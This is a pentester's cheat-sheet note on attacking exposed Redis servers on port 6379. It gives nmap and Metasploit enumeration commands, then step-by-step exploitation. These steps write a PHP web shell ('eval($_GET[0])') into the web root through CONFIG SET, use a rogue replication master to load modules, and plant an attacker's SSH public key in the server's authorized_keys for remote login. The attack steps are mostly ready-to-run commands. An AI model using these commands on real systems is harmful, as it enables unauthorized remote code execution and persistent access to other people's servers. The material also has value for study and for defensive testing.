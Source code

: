```yaml
---
id: services
aliases: []
tags: []
---
```

# Services 
[[#Redis /6379]]
  
  
## Redis /6379
> Redis is an open source, in-memory data structure store, used as a database, cache and message broker.

### Enumeration:    
```bash
   nmap --script redis-info -sV -p 6379 <IP>
   msf> use auxiliary/scanner/redis/redis_server
i ```
### Commands:
> [Cheat-Sheet](https://lzone.de/#/LZone%20Cheat%20Sheets/DevOps%20Services/Redis)

### Exploitation
> #### Authentication:
> Brute force 
1. **Easy**:
> [!IMPORTANT] Must have rights to access the dir / Must know the web root dir
```redis 
CONFIG SET
1. Change database file location
CONFIG SET dir /var/www/uploads/
2. Change database file name
CONFIG SET dbfilename sh.php
3. Inject your shell payload into database
SET PAYLOAD '<?php eval($_GET[0]);?>'
4. Save database to file
BGSAVE
```
2. **[Redis-rogue-server.py](https://github.com/n0b0dyCN/redis-rogue-server)** 
> Sets a redis server which operates as a master and sends commands and writes to files to target with partial or total resynchronization 
```redis
rogue server
1. PING - test if a connection is still alive
+PONG
2. REPLCONF - exchange replication information between
master and slave
+OK
3. PSYNC/SYNC <replid> - synchronize slave state with
the master (partial or full)
+CONTINUE <replid> 0
[Source](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
```
> [!IMPORTANT]
>  Compile the .so on your machine
>  run `redis-cli -h <IP> flushall` to remove all changes otherwise it can give an error 

3. **ssh** :
> Generate a ssh public-private key pair on your pc: 
`ssh-keygen -t rsa`

> Write the public key to a file : 
`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`

> Import the file into redis : 
`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`

> Save the public key to the authorized_keys file on redis server:

`root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK`

> Finally, you can ssh to the redis server with private key : 
`ssh -i id_rsa redis@10.85.0.52 `

### ** Tags:
| OS | Vuln versions | Techniques |
|  | --------------- | --------------- |
| Windows, Linux | 4 - 5  | SSRF, SSH, Reverse-shell, Web-shell  |
 

   

